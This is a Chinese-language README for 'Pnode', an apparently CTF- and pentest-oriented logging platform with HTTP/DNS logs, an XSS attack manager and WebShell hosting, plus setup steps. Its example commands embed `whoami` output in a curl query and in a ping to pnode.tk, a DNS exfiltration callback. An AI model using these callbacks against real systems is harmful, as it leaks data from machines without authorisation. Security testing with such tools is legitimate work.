 ```
   ___                 _      
  / _ \_ __   ___   __| | ___ 
 / /_)/ '_ \ / _ \ / _` |/ _ \
/ ___/| | | | (_) | (_| |  __/
\/    |_| |_|\___/ \__,_|\___|
                              
```



### 项目名称

Pnode

### 项目描述

前端使用Boostrap框架，后端使用thinkphp5框架开发

适用于hacker&CTFer

可以满足日常的需求，并且可以直接在WEB端管理&编辑一些文件用于远程加载

### 功能介绍

* HTTP log
* DNS log
* XSS攻击管理模块
* WebShell等文件管理模块

```
curl http://127.0.0.1:10082/public/?c=`whoami`
```



![](https://ws4.sinaimg.cn/large/006tNc79ly1fzbpadxielj31ik0m6ac2.jpg)



```
ping -c 2 `whoami`.pnode.tk
```



![](https://ws1.sinaimg.cn/large/006tNc79ly1fzb0a7st2ej31fc0dmdi0.jpg)

![](https://ws1.sinaimg.cn/large/006tNc79ly1fzbr5mp56uj31fb0u0afo.jpg)

![](https://ws2.sinaimg.cn/large/006tNc79ly1fzbr6j7i0zj31r00su41a.jpg)





### 环境部署

LAMP环境即可

修改database.php中数据库账号密码

自行修改默认登陆密码(md5后的)

```
update users set password=md5('admin') where username='admin'
```

如果需要DNS log功能,首先`https://my.freenom.com/`注册一个账号,然后免费申请一个域名

![](https://ws3.sinaimg.cn/large/006tNc79ly1fzb0n0s9k9j320g0rygu7.jpg)

![](https://ws4.sinaimg.cn/large/006tNc79ly1fzb0otdeumj31se0o2n0g.jpg)

然后将你的vps的外网ip填入

然后一直继续即可

然后将dns.py放入到`/tmp`目录下

修改dns.py为你的域名和你的vps ip,然后手动启动dns服务

```
nohup python /tmp/dns.py &
```

在一个小时左右将会解析成功,然后就可以接受到log。


* PS:部分模块代码取自火日师傅项目,感谢。
